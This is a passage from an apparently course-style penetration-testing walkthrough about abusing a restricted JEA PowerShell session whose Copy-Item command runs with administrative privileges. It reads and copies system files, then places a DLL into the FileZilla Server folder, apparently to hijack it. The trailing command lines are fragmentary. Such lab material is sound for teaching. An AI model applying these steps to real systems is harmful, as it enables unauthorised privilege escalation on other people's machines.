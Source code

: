 > Listing 34 - Checking available commands in a regular PowerShell prompt

Our commands in the JEA session are very limited. The _functions_ we find on the left side in Listing 33 are the current commands available by default when JEA is set up with _RestrictedRemoteServer_. However, the _Copy-Item_ is not default and is likely set up by the system administrator.

Keep in mind that the commands available to us will be executed with administrative privileges on the machine. If there is no validation on what exactly _mary_ can copy, we may be able to copy files from the entire file system.

According to the PowerShell history we reviewed earlier, _mary_ copied a file from the **C:\shares\engineering_old\scripts\** share. While the content of this share may be of interest, let's check if we are able to copy items from anywhere else.

Since the home folder for domain users is also stored in _FILES02_, which includes _mary_'s, we can easily verify whether we can copy other files on the machine.

Let's first try to copy the **hosts** file, which is default on all Windows machines.

```
[files02]: PS> Copy-Item -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\shares\home\mary'
```

> Listing 35 - Copying hosts file to mary home folder

With no error messages displayed, let's check the home folder for the file and confirm the content of the file is intact. To do this, we'll go back to the PowerShell prompt on _CLIENT02_ since the one we have on _FILES02_ will not allow us to list the directory.

```
PS C:\> type \\files02\home$\mary\hosts
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#       127.0.0.1       localhost
#       ::1             localhost
```

> Listing 36 - Verifying that the hosts file is intact


[files02]: PS>whoami
[files02]: PS>[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
[files02]: PS>Get-Command
[files02]: PS>[files02]: copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"